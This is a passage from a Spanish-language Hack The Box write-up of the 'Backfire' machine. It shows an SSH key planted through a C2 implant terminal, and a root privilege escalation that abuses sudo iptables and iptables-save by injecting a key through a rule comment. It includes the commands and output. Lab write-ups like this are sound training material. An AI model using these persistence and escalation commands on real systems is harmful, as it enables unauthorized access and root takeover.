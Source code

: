 
Desde el panel como usuario con rol TeamLead utilizo la sección `Implant Interact` > `Terminal` para ejecutar comandos directamente en el host, aprovechando la integración del C2 con el sistema. Inyecto mi clave pública SSH al archivo `/home/sergej/.ssh/authorized_keys` reutilizando la clave generada anteriormente.

```bash
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOsyjZH2HTiLb61fHRWAVsuQBhOS7YslTji85AO3Vfkv kali@k4li' | tee -a /home/sergej/.ssh/authorized_keys
```

{% include embed/video.html src='assets/img/htb-writeup-backfire/backfire2_5.webm' types='webm' title='Remote Code Execution' autoplay=true loop=true muted=true %}

Finalizada la inyección, me conecto exitosamente vía SSH como el usuario `sergej` reutilizando mi clave privada.

```terminal
/home/kali/Documents/htb/machines/backfire:-$ ssh sergej@10.10.11.49
Enter passphrase for key '/home/kali/.ssh/id_ed25519': $tr0ngP@$$w0rd123

sergej@backfire:~$ id
uid=1001(sergej) gid=1001(sergej) groups=1001(sergej),100(users)
```

---
## Privilege Escalation

Revisando los privilegios `sudo` disponibles para el usuario `sergej`, encuentro que puede ejecutar iptables y iptables-save como `root` sin requerir contraseña. 

```terminal
sergej@backfire:~$ sudo -l
Matching Defaults entries for sergej on backfire:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User sergej may run the following commands on backfire:
    (root) NOPASSWD: /usr/sbin/iptables
    (root) NOPASSWD: /usr/sbin/iptables-save
```

Esta configuración permite escribir directamente en archivos arbitrarios si se abusa del argumento `-f` de iptables-save.

Para [abusar](https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/) de esta configuración, agrego una nueva regla con un comentario que contiene mi clave pública SSH, utilizando una cadena multilínea forzada con `$'\n'`. Esto inserta el contenido en la salida que luego será redireccionada a `authorized_keys`.

```terminal
sergej@backfire:~$ sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOsyjZH2HTiLb61fHRWAVsuQBhOS7YslTji85AO3Vfkv kali@kali\n'
```

Verifico que la regla se encuentre cargada en la tabla actual.
